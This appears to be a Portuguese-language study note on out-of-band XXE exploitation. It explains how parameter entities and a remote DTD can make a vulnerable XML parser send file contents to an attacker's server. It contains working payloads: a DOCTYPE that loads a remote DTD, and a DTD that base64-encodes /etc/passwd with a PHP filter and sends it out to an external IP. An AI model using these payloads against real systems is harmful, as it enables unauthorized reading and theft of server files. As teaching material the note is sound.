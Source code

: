 
XXE OOB é uma técnica especifica para explorar XXE, ocorre quando uma aplicação processa um arquivo XML de maneira insegura e permite que um atacante faça a requisição de uma entidade externa, mas ao invés de retornar a resposta diretamente, o servidor envia os dados para um destino externo controlado pelo atacante.

Enviando o payload abaixo podemos ver que nosso XML é processado pelo servidor e a requisição é feita no nosso servidor:
![[Captura de tela de 2025-07-02 10-39-41.png]]
Também é possível enviar esse payload sem que seja necessário o processamento do campo do nosso XML, adicionando ele no campo das entidades %file, podemos usar em cenários onde não conseguimos alterar o corpo do XML.

Utilizando um **%** em uma entidade que faz a requisição, o seu resultado se torna um parâmetro e não um valor de entidade, então oque podemos fazer é chamar um XML remotamente, pegar o resultado desse XML e colocar dentro da área de entidades
```
<!DOCTYPE xxeoob
[
<!ENTITY % file SYSTEM "http://10.0.23.219/data.dtd"
%file;
]
>
<root>testes</root>
```

Para aumentar o impacto dessa falha podemos tentar ler arquivos sensíveis do servidor. Para isso vamos criar um arquivo .dtd na nossa máquina e dentro dele vamos criar três entidades, a primeira vai utilizar PHP wrapper para encodar o conteúdo do arquivo que vamos ler em base64, a segunda vai concatenar dois valores o resultado da primeira entidade com 
``` cat aula.dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % payload "<!ENTITY &#37; remote SYSTEM 'http://10.0.23.219:8000/?leak=%file;'>">
%payload;
%remote;
```
A entidade **payload** vai ter outra entidade dentro dela com o objetivo de concatenar valores. Quando essa entidade for executada ela vai fazer uma chamada para meu servidor externo enviando o arquivo de /etc/passwd em base64.
O **&#37**  é o % pois dentro de uma entidade que está dentro de outra entidade todo caractere já reservado de uma entidade precisa passar por um processo de html encode numérico.
	https://gchq.github.io/CyberChef/

Oque está sendo feito é que a entidade **file** está indo no nosso servidor pegando o arquivo **data.dtd** e processando o conteúdo dele e retornando nos retornado em base64.